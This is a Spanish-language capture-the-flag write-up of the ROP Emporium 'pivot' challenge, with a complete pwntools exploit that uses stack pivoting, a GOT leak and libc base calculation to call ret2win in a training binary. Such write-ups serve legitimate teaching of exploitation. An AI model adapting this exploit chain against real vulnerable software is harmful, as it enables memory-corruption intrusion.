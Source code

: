 # 7. Pivot (x86\_64)

En este ejercicio nos vuelven a dar un binario y una libc.

```c
pwndbg> checksec
File:     /home/ub1cu0/Desktop/ropEmporium/pivot/pivot
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
RUNPATH:    b'.'
Stripped:   No
```

El binario nos permite introducir 2 valores:

```c
./pivot 
pivot by ROP Emporium
x86_64

Call ret2win() from libpivot
The Old Gods kindly bestow upon you a place to pivot: 0x7f89e0608f10
Send a ROP chain now and it will land there
> hola
Thank you!

Now please send your stack smash
> adios
Thank you!

Exiting
```

Vamos a ver como se ve eso desde `ghidra`:

```c
void pwnme(void *puntero) {
    char array[32];

    memset(array, 0, 0x20);
    puts("Call ret2win() from libpivot");
    printf("The Old Gods kindly bestow upon you a place to pivot: %p\n", puntero);
    puts("Send a ROP chain now and it will land there");
    printf("> ");
    read(0, puntero, 0x100);
    puts("Thank you!\n");
    puts("Now please send your stack smash");
    printf("> ");
    read(0, array, 0x40);
    puts("Thank you!");
    return;
}
```

Como podemos ver, tenemos un buffer overflow con 32 bytes se sobra en el segundo valor que nos piden. También podemos ver que el primer valor que guarda un valor en `puntero`. Vamos a mirar de donde viene ese puntero:

```c
void pwnme(void *puntero);

int main(void) {
    void *ptr;

    setvbuf(stdout, NULL, _IONBF, 0);  // Sin buffer en stdout
    puts("pivot by ROP Emporium");
    puts("x86_64\n");

    ptr = malloc(0x10000000);
    if (ptr == NULL) {
        puts("Failed to request space for pivot stack");
        exit(1);
    }

    // Llamar a pwnme con un puntero adelantado (offset 0xffff00)
    pwnme((char *)ptr + 0xffff00);

    free(ptr);
    puts("\nExiting");

    return 0;
}
```

El programa reserva una gran cantidad de espacio y el puntero es el inicio de ese espacio mas un valor grande, con lo cual es un puntero a una zona muy superior del espacio reservado.

Ahora que sabemos esto podemos hacer un stack pivoting, si conseguimos hacer que el rsp apunte al puntero tendremos la capacidad de hacer una rop chain muy larga.

Para hacer esto vamos a mirar si hay algún gadget interesante que nos permita manipular el rsp:

```c
0x004009bb : pop rax ; ret
. . .
0x004009bd : xchg rsp, rax ; ret
```

Con la fusión de estos 2 gadgets podemos controlar el rsp a voluntad. El programa como hemos viste en el código de la función `pwnme` imprime por pantalla el valor del puntero así teniendo esto tenemos los datos necesarios para hacer stack pivoting:

```python
io.recvlines(4)
pivot_addr = int(io.recvline().decode().strip().split(': ')[1], 16)

stack_pivoting = flat({
    offset: [
        pop_rax, pivot_addr,
        xchg_rsp_rax
    ]
})
```

Con ese payload haríamos que lo que pongamos en el primer input se ejecute una vez se haga el buffer overflow. Con lo cual pasamos de tener 32 bytes para hacer la rop chain a mucho mas.

Ahora que tenemos mas espacio podemos intentar sacar la flag. Si miramos la libc podemos ver que hay una función win que imprime la flag:

```c
void ret2win(void) {
    FILE *stream = fopen("flag.txt", "r");
    if (!stream) {
        puts("Failed to open file: flag.txt");
        exit(1);
    }

    char buf[0x21];
    fgets(buf, sizeof(buf), stream);
    puts(buf);

    fclose(stream);
    exit(0);
}
```

Para poder saber la dirección podemos intentar hacer un leak de puts con puts pero la libc que tiene la función `ret2win` no tiene puts sin embargo el binario si. Si miramos mas funciónes de la libc podemos ver la siguiente:

```c
void foothold_function(void) {
    puts("foothold_function(): Check out my .got.plt entry to gain a foothold into libpivot");
}
```

Lo que pasa es que esa función no se ha llamado nunca con lo cual no está resuelta aun en el `got` para poder sacar su dirección. Lo que tenemos que hacer es llamar nosotros a esa función con nuestra rop chain para hacer que se escriba la dirección en el `got`. Para eso necesitamos que la función `foothold_function` esté en la `plt` de nuestro binario, vamos a comprobarlo:

```c
00000000004009a8 <uselessFunction>:
  4009a8:	55                   	push   rbp
  4009a9:	48 89 e5             	mov    rbp,rsp
  4009ac:	e8 6f fd ff ff       	call   400720 <foothold_function@plt>
  4009b1:	bf 01 00 00 00       	mov    edi,0x1
  4009b6:	e8 95 fd ff ff       	call   400750 <exit@plt>
```

Está! Entonces podemos hacer un leak de esa función con puts y hacer el calculo para saber la dirección de la libc y así conseguir tener la dirección de la función de la libc `ret2win`, vamos con el exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./pivot")
libc = ELF("./libpivot.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b ret2win
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()

    offset = 40
    pop_rdi = 0x00400a33 # pop rdi ; ret
    pop_rax = 0x004009bb # pop rax ; ret
    xchg_rsp_rax = 0x004009bd # xchg rsp, rax ; ret
    ret = 0x004006b6 # ret
    
    io.recvlines(4)
    pivot_addr = int(io.recvline().decode().strip().split(': ')[1], 16)
    
    log.success(f'Pivot Address: {hex(pivot_addr)}')
    
    payload1 = flat(
        exe.plt['foothold_function'],
        pop_rdi, exe.got['foothold_function'],
        exe.plt['puts'],
        exe.sym['pwnme'],
        exe.sym['main'], # Instrucción necesaria para que no reviente el exploit
    )
    
    payload2 = flat({
        offset: [
            pop_rax, pivot_addr,
            xchg_rsp_rax
        ]
    })
    
    io.sendlineafter(b'> ', payload1)
    io.sendlineafter(b'> ', payload2)
    
    io.recvlines(2)
    leak = u64(io.recvline().rstrip(b'\n').ljust(8, b'\x00')) # Guardamos el Leak
    log.success(f'Leak: {hex(leak)}')
    
    libc.address = leak - libc.sym['foothold_function'] # Calculamos la dirección base de la libc
    log.success(f'Libc Address: {hex(libc.address)}')
    
    info(f'Ret2win: {hex(libc.symbols['ret2win'])}')
    
    io.sendlineafter(b'> ', b'B' * 8) # La he liado al contar lineas o algo y me hace falta repetir esta linea
    io.sendlineafter(b'> ', b'B' * 8)
    io.sendlineafter(b'> ', b'B' * offset + p64(libc.symbols['ret2win']))
    
    io.interactive()

if __name__ == "__main__":
    main()

```

```c
[+] Starting local process '/home/ub1cu0/Desktop/ropEmporium/pivot/pivot': pid 218429
[+] Pivot Address: 0x7f916cc08f10
[+] Leak: 0x7f916ce0096a
[+] Libc Address: 0x7f916ce00000
[*] Ret2win: 0x7f916ce00a81
[*] Switching to interactive mode
Thank you!

Now please send your stack smash
> [*] Process '/home/ub1cu0/Desktop/ropEmporium/pivot/pivot' stopped with exit code 0 (pid 218429)
Thank you!
ROPE{a_placeholder_32byte_flag!}
```

Funciona! Gracias por leer.
